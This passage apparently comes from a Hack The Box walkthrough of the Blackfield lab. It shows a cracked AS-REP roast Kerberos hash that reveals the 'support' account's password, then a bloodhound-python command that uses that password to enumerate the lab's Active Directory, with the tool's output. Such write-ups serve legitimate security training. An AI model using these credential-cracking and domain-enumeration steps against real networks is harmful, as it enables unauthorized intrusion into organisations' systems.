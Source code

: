 ```
$krb5asrep$23$support@BLACKFIELD.LOCAL:fafb8eb6bd898ff74a1ea009dfd54656$64ca069a01cdba05e22742828e95bb3ff5b61b4ea2ddc0d86865f907e9defc43d983dbd64cd4125f872761d465527bda41a982c51897d8d8f9e600c8a80ca8aa8c033a5f7f39441e6d47d22d4b209e05dde4491d6a1a25e9125fb377134d71ae2fc1b7129c7586946841f3f9b3d2704b3297a967aa7e85e86ca8300503e1ce84a310a17915a7db21c5f5736c55f2ed22cc24bb1bbf963ed9a1ed33143c5eae33dd9ffc97cea8aa4ef5edc85d837980877eb7c0f20d43fb9e1853ba3373988c4d844a57e51c6aefb911a4f1e9a386c91a41bd84ef0324d03fd8e737b0b2b59129d5075c6d248457ef3dfb73152a812e542dc4fa4a:#00^BlackKnight
```

###### BloodHound enumeration
Now that we got a valid domain user credential, let's do further enumeration with **BloodHound**. I start by using Python BloodHound ingestor to collect the data.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d BLACKFIELD.local -c all
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.blackfield.local:88)] [Errno -3] Temporary failure in name resolution
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 02M 06S
```
